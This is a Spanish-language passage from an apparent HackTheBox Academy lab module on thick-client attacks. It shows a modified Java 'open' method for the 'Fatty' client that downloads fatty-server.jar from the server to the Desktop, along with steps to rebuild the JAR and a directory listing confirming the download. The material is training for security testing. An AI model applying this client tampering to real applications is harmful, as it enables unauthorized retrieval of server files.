 ![](https://academy.hackthebox.com/storage/modules/113/thick_clients_web/start.png)

Podemos modificar el`open`función en`fatty-client-new.jar.src/htb/fatty/client/methods/Invoker.java`Para descargar el archivo`fatty-server.jar`como sigue.

Código:Java

```java
import java.io.FileOutputStream;
<SNIP>public String open(String foldername, String filename) throws MessageParseException, MessageBuildException, IOException {
    String methodName = (new Object() {}).getClass().getEnclosingMethod().getName();
    logger.logInfo("[+] Method '" + methodName + "' was called by user '" + this.user.getUsername() + "'.");
    if (AccessCheck.checkAccess(methodName, this.user)) {
        return "Error: Method '" + methodName + "' is not allowed for this user account";
    }
    this.action = new ActionMessage(this.sessionID, "open");
    this.action.addArgument(foldername);
    this.action.addArgument(filename);
    sendAndRecv();
    String desktopPath = System.getProperty("user.home") + "\\Desktop\\fatty-server.jar";
    FileOutputStream fos = new FileOutputStream(desktopPath);

    if (this.response.hasError()) {
        return "Error: Your action caused an error on the application server!";
    }

    byte[] content = this.response.getContent();
    fos.write(content);
    fos.close();

    return "Successfully saved the file to " + desktopPath;
}
<SNIP>
```

Reconstruya el archivo JAR siguiendo los mismos pasos e inicie sesión nuevamente en la aplicación. Entonces, navegue a`FileBrowser` -> `Config`, agregue el`fatty-server.jar`nombre en el campo de entrada y haga clic en el`Open`botón.

![](https://academy.hackthebox.com/storage/modules/113/thick_clients_web/download.png)

El`fatty-server.jar`El archivo se descarga con éxito en nuestro escritorio, y podemos comenzar el examen.

Explotación de vulnerabilidades web en aplicaciones de cliente grueso

```powershell
C:\> ls C:\Users\cybervaca\Desktop\

...SNIP...
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        3/25/2023  11:38 AM       10827452 fatty-server.jar

```

---